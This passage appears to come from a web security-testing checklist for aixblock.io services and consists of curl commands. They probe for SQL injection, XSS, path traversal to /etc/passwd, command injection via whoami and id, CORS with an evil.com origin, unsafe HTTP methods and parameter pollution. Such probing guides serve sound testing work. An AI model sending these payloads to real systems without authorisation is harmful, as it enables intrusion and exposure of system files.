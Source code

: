 ### **6. Input Validation Testing**
```bash
# SQL injection testing
curl -s "https://workflow.aixblock.io/api/v1/query" -d "query=SELECT * FROM users" -v
curl -s "https://workflow.aixblock.io/api/v1/query" -d "query=' OR '1'='1" -v
curl -s "https://workflow.aixblock.io/api/v1/query" -d "query=1' UNION SELECT * FROM users--" -v

# XSS testing
curl -s "https://app.aixblock.io/search" -d "q=<script>alert('xss')</script>" -v
curl -s "https://app.aixblock.io/search" -d "q=javascript:alert('xss')" -v
curl -s "https://app.aixblock.io/search" -d "q=<img src=x onerror=alert('xss')>" -v

# Path traversal testing
curl -s "https://workflow.aixblock.io/api/v1/files/../../../etc/passwd" -v
curl -s "https://workflow.aixblock.io/api/v1/files/..%2F..%2F..%2Fetc%2Fpasswd" -v
curl -s "https://workflow.aixblock.io/api/v1/files/....//....//....//etc/passwd" -v

# Command injection testing
curl -s "https://workflow.aixblock.io/api/v1/exec" -d "cmd=whoami" -v
curl -s "https://workflow.aixblock.io/api/v1/exec" -d "cmd=id" -v
curl -s "https://workflow.aixblock.io/api/v1/exec" -d "cmd=ls -la" -v
```

### **7. CORS and Security Headers Testing**
```bash
# CORS testing
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Origin: https://evil.com" -v
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Origin: null" -v
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Origin: https://workflow.aixblock.io.evil.com" -v

# Security headers analysis
curl -s "https://workflow.aixblock.io/api/v1/flags" -I
curl -s "https://app.aixblock.io" -I
curl -s "https://api.aixblock.io" -I

# Check for missing security headers
curl -s "https://workflow.aixblock.io/api/v1/flags" -I | grep -i "x-frame-options\|x-content-type-options\|x-xss-protection\|strict-transport-security"
```

### **8. API Security Testing**
```bash
# API endpoint enumeration
curl -s "https://workflow.aixblock.io/api/v1/" -v
curl -s "https://workflow.aixblock.io/api/v2/" -v
curl -s "https://workflow.aixblock.io/api/v1/" -v

# HTTP method testing
curl -s "https://workflow.aixblock.io/api/v1/flags" -X POST -v
curl -s "https://workflow.aixblock.io/api/v1/flags" -X PUT -v
curl -s "https://workflow.aixblock.io/api/v1/flags" -X DELETE -v
curl -s "https://workflow.aixblock.io/api/v1/flags" -X PATCH -v

# Parameter pollution
curl -s "https://workflow.aixblock.io/api/v1/flags?id=1&id=2" -v
curl -s "https://workflow.aixblock.io/api/v1/flags?user=admin&user=guest" -v
```
